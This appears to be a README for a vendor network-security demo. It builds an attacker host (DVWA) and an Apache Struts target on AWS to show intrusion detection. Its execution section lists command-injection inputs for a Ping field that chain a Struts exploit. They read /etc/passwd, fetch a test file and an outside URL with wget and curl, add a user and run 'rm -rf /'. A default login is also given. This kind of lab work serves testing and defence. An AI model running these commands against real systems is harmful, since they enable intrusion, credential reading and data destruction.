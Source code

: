 # Cloud One - Network Security Demo
Requirements:

-- AWS Account
-- NSVA Deployment (Terraform)
-- 2 Ubuntu Linux Instances

## Phase1 - Demo Preparation
- Create 2 new Linux Instances;
- On the Advanced Options field, paste the script attacker-dvwas.sh and target-apachestruts.sh (1 script in each instance);

## Phase2 - Testing the Demo
- Connect on the Linux Instance where you executed the attacker-dvwa-ds script through http://public-ip

-- username: administrator 
-- password: password

- Connect on the Linux Instance where you executed the target-apachestruts-ds script through http://public-ip

## Phase3 - Executing the Demo
- Command Injection Menu
-- Use the "Ping" field to execute the attacks below:
- 127.0.0.1| python http://target-ip/hello "command"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "cat /etc/passwd"
- 127.0.0.1| python exploit.py http://target-ip/hello "wget http://2016.eicar.org/download/eicar.com"
- 127.0.0.1| python exploit.py http://target-ip/hello "curl http://wrs21.winshipway.com/"
- 127.0.0.1| python exploit.py http://target-ip/hello "adduser YouHaveBeenPwned"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "rm -rf /"

## Phase3 - SMS/C1NS Logs
Check the logs

.


